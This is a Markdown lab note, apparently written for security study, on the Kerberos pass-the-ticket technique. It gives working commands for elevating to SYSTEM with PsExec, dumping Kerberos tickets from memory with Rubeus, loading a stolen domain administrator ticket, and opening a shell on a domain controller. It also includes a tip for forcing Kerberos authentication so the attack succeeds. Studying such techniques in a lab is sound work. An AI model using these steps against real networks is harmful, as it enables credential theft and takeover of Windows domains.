 ### Pass-the-Ticket - Works with Kerberos Only
#### What is Pass-the-Ticket?
A **pass-the-ticket** attack is a post-exploitation technique where an ***attacker reuses stolen Kerberos tickets*** (`TGS` or `TGT`) to ***authenticate as a legitimate user without needing their password***. 

For **TGS** tickets, the attacker directly accesses services; with a **TGT** ticket, the attacker request a new service ticket from the authentication server.

#### Obtaining the Tickets
A couple of ways to obtain tickets are:
- Stealing them from memory from a compromised host
- Forging them with a Golder/Silver Ticket attack

#### Extracting the `Domain Admin ticket`
**Elevate to SYSTEM on that host
```
.\PsExec64.exe -accepteula -s -i cmd.exe
```
- This will open `cmd.exe` as `SYSTEM`. All following commands should be run in that terminal.

**Dump tickets with Rubeus and export a `.kirbi`
```
cd C:\path\to\Rubeus
.\Rubeus.exe dump /outfile:admin_ticket.kirbi
```

**If `/outfile` not supported
```
.\Rubeus.exe dump > dump.txt
notepad dump.txt
```
- Find the `KRB-CRED` / base64 block for the ticket. Copy the entire base64 blob (no extra text).

#### Performing the attack
Once the ticket has been obtained, use ***Rubeus*** to perform ***pass-the-ticket*** attack. For this lab, `ticket.kirbi` has been provided.
- `ticket.kirbi:` is a TGT for the domain administrator.

**Load the ticket into memory**
```powershell
rubeus.exe ptt /ticket:ticket.kirbi
```

**Verify the ticket has been loaded**
```powershell
klist
```

**Once the ticket is loaded into memory, use `PsExec64` to connect to the DC**
```powershell
psexec64 \\dc01.ktown.local cmd
```
***Note: To force the usage of Kerberos, you must use hostnames when connecting to a service. Using IP addresses will make the authentication mechanism fall back to `NTLM` and the attack will fail.***

